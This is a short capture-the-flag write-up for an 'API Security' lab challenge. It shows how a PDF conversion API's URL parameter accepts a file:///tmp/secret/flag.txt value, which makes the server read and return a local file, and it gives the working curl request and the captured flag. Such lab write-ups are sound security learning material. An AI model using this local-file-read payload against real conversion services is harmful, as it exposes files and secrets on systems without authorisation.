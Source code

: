 # API Security

> Author : jul0105
> Date : 13.03.2021



## Challenge info

**Release** : Bundle 2 (13.03)

**Difficulty** : Medium

**Goal** : Exploit the api service. Disclose the following file from the api service: `/tmp/secret/flag.txt` and you will find the flag.



## Solve

1. The challenge provide 4 example of conversion. Three of them needs to provide a file with the request but the last one require an URL. This is interesting because it means that the API will need to reach the given URL to get the file. Here is the given example :

```bash
curl --request POST \
    --url https://<server>/convert/url \
    --header 'Content-Type: multipart/form-data' \
    --form remoteURL=https://localhost:3000 \
    --form marginTop=0 \
    --form marginBottom=0 \
    --form marginLeft=0 \
    --form marginRight=0 \
    -o url.pdf
```

2. Instead of giving an URL pointing to as web server, we'll try to get a local file: `file:///tmp/secret/flag.txt`

```bash
curl --request POST \
    --url https://5d829d42-7cb3-481a-9a6f-baa417523c3f.idocker.vuln.land/convert/url \
    --header 'Content-Type: multipart/form-data' \
    --form remoteURL=file:///tmp/secret/flag.txt \
    --form marginTop=0 \
    --form marginBottom=0 \
    --form marginLeft=0 \
    --form marginRight=0 \
    -o flag.pdf
```

3. The request is accepted by the API and content of `flag.txt` is converted to pdf.
4. And we have the flag :

```
e173ccab-b74f-4ced-b5be-0f82c4f04228
```
